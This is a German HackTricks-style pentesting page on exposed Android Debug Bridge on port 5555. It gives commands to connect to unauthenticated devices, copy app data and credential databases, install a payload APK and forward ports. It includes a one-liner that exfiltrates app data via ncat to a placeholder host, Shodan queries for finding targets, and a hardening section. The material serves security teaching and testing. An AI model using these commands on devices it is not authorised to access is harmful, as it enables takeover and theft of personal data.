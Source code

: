 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Grundlegende Informationen

Von [den Dokumenten](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) ist ein Befehlszeilenwerkzeug zur Kommunikation mit Android-basierten Geräten und Emulatoren. Typische Aktionen umfassen das Installieren von Paketen, Debugging und das Erhalten einer interaktiven Unix-Shell auf dem Gerät.

- Historischer Standard-TCP-Port: 5555 (klassischer "adb tcpip"-Modus).
- Modernes kabelloses Debugging (Android 11+) verwendet TLS-Paarung und mDNS-Dienstentdeckung. Der Verbindungsport ist dynamisch und wird über mDNS entdeckt; er muss nicht 5555 sein. Die Paarung erfolgt mit adb pair host:port gefolgt von adb connect. Siehe die untenstehenden Hinweise zu offensiven Implikationen.

Beispiel nmap-Fingerabdruck:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbinden

Wenn Sie ADB exponiert und erreichbar finden, versuchen Sie schnell zu verbinden und zu enumerieren:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Wenn das Gerät die ADB-Authentifizierung durchsetzt (ro.adb.secure=1), müssen Sie vorab autorisiert sein (USB RSA-Authentifizierung) oder die drahtlose Debugging-Paarung von Android 11+ verwenden (die einen einmaligen Code erfordert, der auf dem Gerät angezeigt wird).
- Einige Herstellerbilder, Engineering-/Userdebug-Bauten, Emulatoren, Fernseher, STBs und Entwicklungskits setzen adbd ohne Authentifizierung oder mit adbd, das als Root ausgeführt wird, frei. In diesen Fällen landen Sie normalerweise direkt in einer Shell oder Root-Shell.

Für eine allgemeine ADB-Befehlsreferenz siehe:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Schnelle Post-Exploitation

Sobald Sie eine Shell haben, validieren Sie die Berechtigungen und den SELinux-Kontext:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Auflisten und Erfassen von Daten

- Liste von Drittanbieter-Apps und Pfaden:
```bash
pm list packages -3
pm path <pkg>
```
- Wenn du Root hast (adb root oder su funktioniert), kannst du direkt auf /data zugreifen. Andernfalls bevorzuge run-as für debugbare Apps:
```bash
# Ohne Root, für eine debugbare App
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Mit Root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nützliche Systemartefakte (Root erforderlich):
- /data/system/users/0/accounts.db und verwandte AccountManager-Daten
- /data/misc/wifi/ (Netzwerkkonfigurationen/Schlüssel in älteren Versionen)
- App-spezifische SQLite-Datenbanken und shared_prefs unter /data/data/<pkg>

Du kannst dies verwenden, um sensible Informationen abzurufen (z. B. App-Geheimnisse). Für Hinweise zu Chrome-Datenüberlegungen siehe das Problem, das [hier](https://github.com/carlospolop/hacktricks/issues/274) erwähnt wird.

### Codeausführung und Payload-Zustellung

- Installiere und gewähre automatisch Laufzeitberechtigungen:
```bash
adb install -r -g payload.apk         # -g gewährt alle im Manifest deklarierten Laufzeitberechtigungen
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Starte Aktivitäten/Dienste/Broadcasts direkt:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Portweiterleitung und Pivotierung

Selbst ohne Root kann adb lokale Ports auf Geräteports und umgekehrt weiterleiten. Dies ist nützlich, um auf lokal auf dem Gerät gebundene Dienste zuzugreifen oder Angreiferdienste dem Gerät zur Verfügung zu stellen.

- Weiterleitung Host->Gerät (Zugriff auf einen geräte-lokalen Dienst von deinem Host):
```bash
adb forward tcp:2222 tcp:22       # Wenn das Gerät SSH ausführt (z. B. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Exponiere den lokalen Debug-Server der App
```
- Umgekehrte Weiterleitung Gerät->Host (lass das Gerät einen Dienst auf deinem Host erreichen):
```bash
adb reverse tcp:1080 tcp:1080     # Geräte-Apps können jetzt host:1080 als 127.0.0.1:1080 erreichen
```
- Datei-Exfiltration über Sockets (keine sdcard-Schreibvorgänge):
```bash
# Auf dem Host: hören
ncat -lvp 9000 > dump.tar
# Auf dem Gerät: Verzeichnis als tar senden (Root oder run-as wie zutreffend)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Drahtloses Debugging (Android 11+)

Modernes Android implementiert TLS-geschütztes drahtloses Debugging mit geräteseitiger Kopplung und mDNS-Entdeckung:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notizen
- Ports sind dynamisch; gehen Sie nicht von 5555 aus. mDNS-Dienstenamen sehen aus wie:
- _adb-tls-pairing._tcp (Pairing)
- _adb-tls-connect._tcp (gepaart verbinden)
- _adb._tcp (legacy/plain)
- Wenn mDNS gefiltert ist, kann das klassische USB-unterstützte Aktivieren möglicherweise bei einigen Builds noch funktionieren: `adb tcpip 5555` dann `adb connect <ip>:5555` (bis zum Neustart).

Offensive Implikationen: Wenn Sie mit der Benutzeroberfläche des Geräts interagieren können (z. B. physischer Zugriff oder falsche Konfiguration von mobilem MDM), um das kabellose Debugging zu aktivieren und den Pairing-Code anzuzeigen, können Sie einen langlebigen, gepaarten ADB-Kanal ohne Kabel einrichten. Einige OEMs bieten ADB über TCP in Engineering-/Entwicklungsbildern ohne Pairing an – immer überprüfen.

## Härtung / Erkennung

Verteidiger sollten davon ausgehen, dass jeder erreichbare adbd (TCP) ein kritisches Risiko darstellt.

- Deaktivieren Sie ADB und kabelloses Debugging, wenn nicht benötigt. Widerrufen Sie USB-Debugging-Berechtigungen in den Entwickleroptionen.
- Stellen Sie sicher, dass die Netzwerkpolitik eingehendes TCP/5555 und mDNS-basiertes ADB-Discovery in nicht vertrauenswürdigen Segmenten blockiert.
- Auf Geräten unter Ihrer Kontrolle:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP-Listening deaktivieren (oder verwenden: adb usb)
stop adbd; start adbd             # Daemon neu starten
```
- Überwachen Sie mDNS-Einträge `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` in Unternehmensnetzwerken und warnen Sie vor unerwarteten 5555-Listenern.
- Inventarisieren Sie unsichere Builds: `getprop ro.debuggable`, `ro.build.type` und `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referenzen

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB über Wi‑Fi, Pairing und mDNS-Dienstenamen: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

